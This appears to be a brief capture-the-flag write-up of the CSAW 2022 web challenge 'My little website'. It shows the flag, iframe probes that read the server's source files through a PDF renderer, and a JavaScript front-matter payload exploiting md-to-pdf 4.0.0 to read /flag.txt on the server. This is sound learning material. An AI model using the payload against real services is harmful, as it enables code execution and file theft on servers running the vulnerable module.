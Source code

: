 `2022` `csaw` `web`

# My little website
`CTF{pdf_c0nt1nu3s_70_5uCK}`

_tl;dr_

LFI/RCE in `md-to-pdf` node module version `4.0.0`.
___

Used `iframes` to render the sources in the pdf

```
<iframe src="/"></iframe>
<iframe src="/index.js"></iframe>
<iframe src="/package.json"></iframe>
```

from which I learned that the submitted user-input was processed by `md-to-pdf` version `4.0.0` to create the pdf. This version is vulnerable to Javascript RCE (see [this issue](https://github.com/simonhaenisch/md-to-pdf/issues/99))

Payload to render the flag in the pdf:

```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```